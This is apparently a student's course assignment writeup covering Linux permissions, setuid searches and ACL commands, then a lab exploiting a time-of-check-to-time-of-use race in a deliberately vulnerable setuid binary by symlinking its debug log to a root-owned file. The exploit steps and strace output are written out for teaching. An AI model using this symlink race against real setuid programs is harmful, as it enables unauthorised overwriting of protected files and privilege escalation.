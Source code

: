 ## Part A - File System Permissions

**Q1: Write a bash function to convert a GID to a group name using the Linux group file**

```bash
#!/bin/bash

gidSearch()
{
	cat /etc/group | grep -w $1 | cut -d : -f1
}
```

One would need to run ```source <script-name>.sh``` bring this script into the context of the current shell. 
Alternative would be to add “export PATH = $PATH:$pwd” in your bashrc so current parent shell can find the command gidSearch

Here is how the invocation looks like

```bash
comp4108@node00:$ gidSearch 100
users

comp4108@node00:$ gidSearch 45
sasl
```

**Q2 Write a command to change all the directories with permissions 777 in /A2/Haystack to have permissions 750 instead**

```diff
> sudo find . -type d -perm 777 -exec chmod 750 {} \;
```

In the command above, ```\;``` is for escaping the ```;``` character so bash does not interpret it as a command delimeter

**Q3 Find all the binary files in /usr/bin with the setuid bit set.**

```diff 
> find . -perm /4000
```

000 refers to the regular permission bits and 4 refers to the setuid bit. / means find files with at least one bit set from 4000.

## Part B - Access Control Lists

/A2/Gotham has following directory tree: 

```
Gotham
|
|-- Arkham
|
|-- GothamPD
|
'-- WayneManor
    |
    |-- Batcave
    |
    '-- MasterBedroom
```

**1. Give the ACL for the top level Gotham directory** 
```diff 
> getfacl /A2/Gotham
``` 

**2. Use chmod to add rx permissions for the other category to Gotham and ALL its sub-directories.** 
```diff
> chmod o+rx -R /A2/Gotham
```

**3. Use setfacl to add read and write permissions to Gotham, Arkham and GothamPD for the user jgordon**
```diff
> setfacl -m jgordon:rw /A2/Gotham/ /A2/Gotham/Arkham/ /A2/Gotham/GothamPD/
```

**4. Use setfacl to add read, write, and execute permissions toWayneManor, Batcave and MasterBedroom for the user bwayne** 
```diff
> setfacl -m bwayne:rwx /A2/Gotham/WayneManor/ /A2/Gotham/WayneManor/Batcave/ /A2/Gotham/WayneManor/MasterBedroom/ 
```

**5. Use setfacl to remove the ACL entries on Arkham for the users skyle and ocobblepot** 
```diff
> setfacl -x u:ocobblepot Arkham/
> setfacl -x u:skyle Arkham/
```

Results after removing ACL entries: 

![b-5](images/b-5.png)

**6. Give the ACL for all subdirectories of Gotham.** 
```diff
> find /A2/Gotham/ -type d -exec getfacl {} \; 
```

## Part C - Race Conditions - TOCTOU 

### Slow (Easy difficulty) 
```diff 
- Skeleton code is provided in Racing folder
```

This involves learning to exploit a classic time of check versus time of use (ToCToU) vulnerability (https://en.wikipedia.org/wiki/Time_of_check_to_time_of_use) in order to gain root access on the VM. We are given two files ```root_file``` and ```vuln_slow```

```root_file``` is owned by root and has no write permissions for any other users. 

```
student@COMP4108-a2:/A2/Racing/Slow$ ls -l root_file
-rw-r--r-- 1 root root 319 Sep 14  2012 root_file
```

```vuln_slow``` binary has setuid bit set 
```
student@COMP4108-a2:/A2/Racing/Slow$ ls -l vuln_slow
-rwsrwsr-x 1 root root 9116 Sep 14  2012 vuln_slow
```

It takes two arguments: a delay in seconds and a message to write to a debug file.

```
student@COMP4108-a2:/A2/Racing/Slow$ ./vuln_slow
Syntax: ./vuln_slow [delay seconds] [message]
```

vuln_slow binary works by checking the permissions on its debug file, sleeping for the provided number of seconds, and then writing to the debug file. 

Our objective is to exploit vuln_slow into writing a message you provide into root_file.

**WRITEUP:**

Let's run strace for tracing syscalls: 

```diff 

> student@COMP4108-a2:/A2/Racing/Slow$ strace ./vuln_slow 60 hacked
```

```c 

execve("./vuln_slow", ["./vuln_slow", "60", "hacked"], [/* 23 vars */]) = 0
brk(0)                                  = 0xa54000
fcntl(0, F_GETFD)                       = 0
fcntl(1, F_GETFD)                       = 0
fcntl(2, F_GETFD)                       = 0
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
mmap(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7f9c5c757000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
fstat(3, {st_mode=S_IFREG|0644, st_size=16342, ...}) = 0
mmap(NULL, 16342, PROT_READ, MAP_PRIVATE, 3, 0) = 0x7f9c5c753000
close(3)                                = 0
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/x86_64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\31\2\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0755, st_size=1807032, ...}) = 0
mmap(NULL, 3921080, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x7f9c5c179000
mprotect(0x7f9c5c32d000, 2093056, PROT_NONE) = 0
mmap(0x7f9c5c52c000, 24576, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1b3000) = 0x7f9c5c52c000
mmap(0x7f9c5c532000, 17592, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0x7f9c5c532000
close(3)                                = 0
mmap(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7f9c5c752000
mmap(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7f9c5c751000
mmap(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7f9c5c750000
arch_prctl(ARCH_SET_FS, 0x7f9c5c751700) = 0
mprotect(0x7f9c5c52c000, 16384, PROT_READ) = 0
mprotect(0x600000, 4096, PROT_READ)     = 0
mprotect(0x7f9c5c759000, 4096, PROT_READ) = 0
munmap(0x7f9c5c753000, 16342)           = 0
brk(0)                                  = 0xa54000
brk(0xa75000)                           = 0xa75000
umask(0)                                = 02
open("/home/student/.debug_log", O_RDWR|O_CREAT|O_APPEND, 0666) = 3
access("/home/student/.debug_log", W_OK) = 0
fstat(1, {st_mode=S_IFCHR|0620, st_rdev=makedev(136, 0), ...}) = 0
mmap(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7f9c5c756000
write(1, "Sleeping for 60 seconds.\n", 25Sleeping for 60 seconds.
) = 25
rt_sigprocmask(SIG_BLOCK, [CHLD], [], 8) = 0
rt_sigaction(SIGCHLD, NULL, {SIG_DFL, [], 0}, 8) = 0
rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
nanosleep({60, 0},
0x7ffd44821de0)      = 0
write(1, "Writing debug message.\n", 23Writing debug message.
) = 23
open("/home/student/.debug_log", O_RDWR|O_CREAT|O_APPEND, 0666) = 4
fstat(4, {st_mode=S_IFREG|0666, st_size=0, ...}) = 0
mmap(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7f9c5c755000
write(4, "hacked\n", 7)                 = 7
close(4)                                = 0
munmap(0x7f9c5c755000, 4096)            = 0
write(1, "Goodbye!\n", 9Goodbye!
)               = 9
exit_group(0)
```

From the strace log, we notice that 

```access("/home/student/.debug_log", W_OK) = 0``` syscall is successful. After this, the process waits for 60 seconds using ```nanosleep({60, 0},```. 

It seems like the binary is trying to check write permission using ```access()```. If that is successful, it writes our message to ```.debug_log``` file. 

During the time when binary is sleeping, what if we create a symlink from ```.debug_log``` to ```root_file```. The binary cannot assume the state managed by the operating system will not change between system calls. This is why we are able to exploit the vulnurability using external input. 

The exploitation process is: 
- Run the binary using command ```./vuln_slow 60 hacked_by_anon```. It should be in sleep for 60 seconds. 
- During these 60 seconds, run ```ln -s /A2/Racing/Slow/root_file /home/student/.debug_log``` in a separate terminal

![symlink](images/symlink_racing_slow)

![racing](images/racing_slow)

SUCCESS! 

```diff
- NOTE: path to directories might change for you. It might not be /A2/Racing/Slow for root_file and /home/student/ for .debug_log file
```
